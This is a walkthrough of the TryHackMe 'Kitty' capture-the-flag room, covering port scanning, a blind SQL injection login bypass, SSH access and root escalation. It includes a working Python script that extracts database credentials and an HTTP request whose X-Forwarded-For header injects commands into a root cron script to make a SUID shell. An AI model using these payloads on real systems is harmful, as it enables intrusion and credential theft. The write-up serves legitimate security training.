


# The Room

The [Kitty](https://tryhackme.com/room/kitty) Room is a CTF
created by a staff member of the Tryhackme plateform. 

This is my first writeup of a THM room, hope that you will learn
something and that it will be easily understandable.

The room topics are :
  - Blind SQL Injection
  - Privilege Escalation
  - HTTP Request's headers Modification.

# Task 1

## Port scan

When we deploy the VM, we do the usual stuff as port scanning. A nmap scan
shows us that the ports open are :
```
+--> nmap [VM_IP_REDACTED] -p-
[...]
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```
+--> nmap [VM_IP_REDACTED] -sC -sV -p22,80
[...]
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b0:c5:69:e6:dd:6b:81:0c:da:32:be:41:e3:5b:97:87 (RSA)
|   256 6c:65:ad:87:08:7a:3e:4c:7d:ea:3a:30:76:4d:04:16 (ECDSA)
|_  256 2d:57:1d:56:f6:56:52:29:ea:aa:da:33:b2:77:2c:9c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Complement informations in the nmap scan don't show any valuable info.

## First Web UI

We can access at a first web UI available on port 80 which ask us to
login or register :



After a few tries, we can see that register leads to nothing as the only
privilege to have an account is to be able to see the page `welcome.php`,
which contains nothing interesting.

A directory/files crawling using `gobuster` don't help us neither.

Files found :
```
/config.php           (Status: 200) [Size: 1]
/index.php            (Status: 200) [Size: 1081]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/register.php         (Status: 200) [Size: 1567]
/welcome.php          (Status: 302) [Size: 0] [--> index.php]
```

Every file listed are known.

Let's test this login form...

## Login form

As we can see very quickly when we test usual SQL Injection payloads in the
login form, it is filtered.

If we enter a normal password (ex: `junk`) and a well-known SQL Injection
payload as the username (ex: `junk' OR 1=1`), we get redirected to `index.php`
with a message :


After a few tests, we can deduce that the problem come from the `OR` in the
payload but that other SQL keywords are unfiltered (`SELECT`, `AND`, `UNION`,
etc).

The Description of the room says that the person working on the site is named
`kitty`. We can try to log as this user without using the `OR` keyword.

The username `kitty' -- -` and a random password are working to log us as the
user named `kitty`. We are then redirected to the `welcome.php` page where we
can't see much more things than when we registered as a random user.

We are going to use `blind SQL Injections` to dig into the database and get
some informations like the password of the `kitty` user.

### Blind SQLi

General blind SQLi payloads are working for our case, an example is :
- When we try `kitty' and database() like '%%' -- -` as username,
  we are redirected to `welcome.php`.
- When we try `kitty' and database() like 'a%' -- -` as username,
  the website tells us that the username or the password is incorrect.

After a few exploit tries, I didn't figure how compare two strings in SQL with
case sensitivity so I will use the function `MD5` to enable case sensitivity
of comparison between strings.

I did an exploit to leak database name, table name, columns name and table
content :

```python
import sys, requests as req, string

choices = ["users_info", "col_name", "tab_name", "db_name"]

if len(sys.argv) < 2 or sys.argv[1] not in choices:
        print("Usage : exploit.py [users_info|col_name|tab_name|db_name]")
        exit(-1)

choice, alp = sys.argv[1], string.ascii_letters + string.digits + ',;_:!'
cols, url = "", "http://[VM_IP_REDACTED]/index.php"

# MD5 for case sensitive comparison
prefix = "kitty' and md5(substr((select group_concat("

templ = {
  "users_info" : prefix + "id,',',username,',',password) from siteusers),",
  "col_name" : prefix + "column_name) from information_schema.columns where table_name='siteusers'),",
  "tab_name" : prefix + "table_name) from information_schema.tables where table_schema=database()),",
  "db_name" : "kitty' and md5(substr(database(),"
}

# POST data
data = {"username" : "junk1", "passwd" : "junk2"}

# Main Loop
cont, ind = True, 1
while cont:
  cont = False
  for i in alp:
    data["username"] = templ[choice]
    data["username"] += str(ind) +",1)) = md5('" + i + "') -- -"

    if "Welcome" in req.post(url,data=data).text:
      cols += i
      print("[-] Actual result :", cols)
      cont = True
      ind += 1
      break;

print("[+] Result :", cols)
```

Results :
- Columns name of `[TABLE_NAME]` : `id,password,username,created_at`
- Users info : `1,kitty,[REDACTED_PASS],2,aaaa,aaaaaa`

In the users info, we can see two accounts, the kitty's account
and one we created to test the register form.

Now that we have kitty's password, we can test it in SSH.

## Initial Access And Enumeration Through SSH

we can log with the credentials we found.

We are the user `kitty` and we are in `/home/kitty`. We have
access to the `user.txt` file. The home of `kitty` contains nothing
interesting.

We import the [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) enumeration script using a python http server on our attack machine.

On the attack machine :
```
+--> python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

On the kitty's machine :
```
kitty@kitty:~$ cd /tmp && wget [ATTACK_MACHIN_IP]:8000/linpeas.sh
```

After a quick enumeration (manual and linpeas),
we can see a few things :
- There is other web content stored in `/var/www/development/`
  instead of `/var/www/html`
- There are few localhost port occupied :
  ```
  kitty@kitty:~$ ss -lntp
  State     Recv-Q    Send-Q        Local Address:Port          Peer Address:Port    Process
  LISTEN    0         151               127.0.0.1:3306               0.0.0.0:*
  LISTEN    0         511               127.0.0.1:8080               0.0.0.0:*
  LISTEN    0         4096          127.0.0.53%lo:53                 0.0.0.0:*
  LISTEN    0         128                 0.0.0.0:22                 0.0.0.0:*
  LISTEN    0         70                127.0.0.1:33060              0.0.0.0:*
  LISTEN    0         511                       *:80                       *:*
  LISTEN    0         128                    [::]:22                    [::]:*
  ```

  The interesting port is `8080` since we already know the others
  (HTTP(`80`), MySQL (`3306`,`33060`), SSH (`22`) and DNS (`53`))
- The `/opt` directory isn't empty and contains a script that
  belongs to `root` (**remember that**):
  ```
  kitty@kitty:~$ ls -la /opt
  total 12
  drwxr-xr-x  2 root root 4096 Feb 25  2023 .
  drwxr-xr-x 19 root root 4096 Nov  8  2022 ..
  -rw-r--r--  1 root root  152 Feb 25  2023 log_checker.sh
  ```

### The Second Web UI

If we enumerate apache enabled sites of the machine, we can see
what runs under the local port `8080` :
```
kitty@kitty:~$ ls -1 /etc/apache2/sites-enabled/
000-default.conf
dev_site.conf
```
```
kitty@kitty:~$ cat /etc/apache2/sites-enabled/dev_site.conf
Listen 127.0.0.1:8080
<VirtualHost 127.0.0.1:8080>
  [...]
	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/development
  [...]
</VirtualHost>
```

A website is running on port `8080` only in local. This website
using the content available in the directory `/var/www/development`
that we found earlier.

The directories `development` and `html` seems a bit similar, the
only differences between them are :
- `development` has a file named `logged` own by `www-data` :
  ```
  kitty@kitty:~$ ls /var/www/*
  /var/www/development:
  config.php  index.php  logged  logout.php  register.php  welcome.php

  /var/www/html:
  config.php  index.php  logout.php  register.php  welcome.php
  ```

- The `index.php` files are different, the `development` one has
  additionnal content :
  ```php
  kitty@kitty:~$ diff /var/www/html/index.php /var/www/development/index.php
  18a19,21
  > 		$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  > 		$ip .= "\n";
  > 		file_put_contents("/var/www/development/logged", $ip);
  21c24,27
  < 		echo 'SQL Injection detected. This incident will be logged!';	
  ---
  > 		echo 'SQL Injection detected. This incident will be logged!';
  > 		$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  > 		$ip .= "\n";
  > 		file_put_contents("/var/www/development/logged", $ip);	
  61c67
  <         <h2>User Login</h2>
  ---
  >         <h2>Development User Login</h2>
  ```

  In fact, the dev server is logging the SQL Injections attempts (in the `logged` file), what the original site didn't actually do.

- The `config.php` files are different but it's irrelevant.

### Port Fowarding

In order to go to the dev website from our attack machine, we can
use [socat](https://github.com/3ndG4me/socat) to forward the inaccessible
`8080` port to an accessible port :
```
kitty@kitty:/tmp$ ./socat TCP-LISTEN:1337,fork TCP:localhost:8080
```

(We've imported `socat` with the same method as for `linpeas.sh`)

This command will forward incomming connections on port `1337` to the
port `8080` of the kitty's machine localhost.

Now we can connect to the second web UI with the same VM IP on port 1337.



### The root script in opt

Remember that we found a root owned script in opt ? that will be
helpful. The script is the following :
```bash
#!/bin/sh
while read ip;
do
  /usr/bin/sh -c "echo $ip >> /root/logged";
done < /var/www/development/logged
cat /dev/null > /var/www/development/logged
```

There is nothing mentionning it in the `crontab`. We can bet that this script
is part of one of root's **personal scheduled tasks** (maybe personal
crontab). 

This script transfers the IPs logged into the dev site log to a
file in `/root`. We can see it's vulnerable to command
injection, especially the parameter `$ip`.

The content of the file `/var/www/development/logged` can be
arbitrary because of these lines in `/var/www/development/index.php` :
```php
if (preg_match( $evilword, $username )) {
		echo 'SQL Injection detected. This incident will be logged!';
		$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
		$ip .= "\n";
		file_put_contents("/var/www/development/logged", $ip);
		die();
	} elseif (preg_match( $evilword, $password )) {
		echo 'SQL Injection detected. This incident will be logged!';
		$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
		$ip .= "\n";
		file_put_contents("/var/www/development/logged", $ip);	
		die();
	}
```

The content of the file (if an SQL Injection is detected) is taken
from the HTTP header `X-Forwarded-For`, which we control when sending a
request.

## Exploitation

The strategy is :
1. Trigger the SQL Injection detection on the development website
  with a request
2. Add a `X-Forwarded-For` HTTP Header to the request with malicious
  code
3. Wait for the code to be executed by the root's task scheduler with
  root privilege

The malicious code we are gonna put into the HTTP Header is :
```
127.0.0.1;cp /bin/bash /home/kitty/bash;chmod +xs /home/kitty/bash;echo 'done';#
```

The code will exploit the script by using `;` to make several more
commands than it should and `#` to cut the `>> /root/logged`.

The injected code, when executed by `root`, will create an SUID bash
executable in the home of `kitty` (which will allow us to open a shell
with root privileges).

The HTTP request with the code injection :
```
POST /index.php HTTP/1.1
Host: [VM_IP_REDACTED]:1337
Content-Length: 38
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[VM_IP_REDACTED]:1337
Content-Type: application/x-www-form-urlencoded
User-Agent: [REDACTED]
Referer: http://[VM_IP_REDACTED]:1337/
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=206tqdpujncvt23g7sncs7kdit
Connection: close
X-Forwarded-For: 127.0.0.1;cp /bin/bash /home/kitty/bash;chmod +xs /home/kitty/bash;echo 'done';#

username=kitty' or 1=1--&password=junk
```

A few moments later...
```
kitty@kitty:/tmp$ ls -l /home/kitty/
total 1160
-rwsr-sr-x 1 root root 1183448 Feb  5 16:04 bash
-rw-r--r-- 1 root root      38 Nov 15  2022 user.txt
```

We see the executable is own by `root` and has a SUID bit set.

We can use our new privileged bash to go to root and read the `root.txt` file
```
kitty@kitty:~$ ./bash -p
bash-5.0# cd /root
bash-5.0# ls
logged	root.txt  snap
bash-5.0# cat root.txt
THM{REDACTED}
```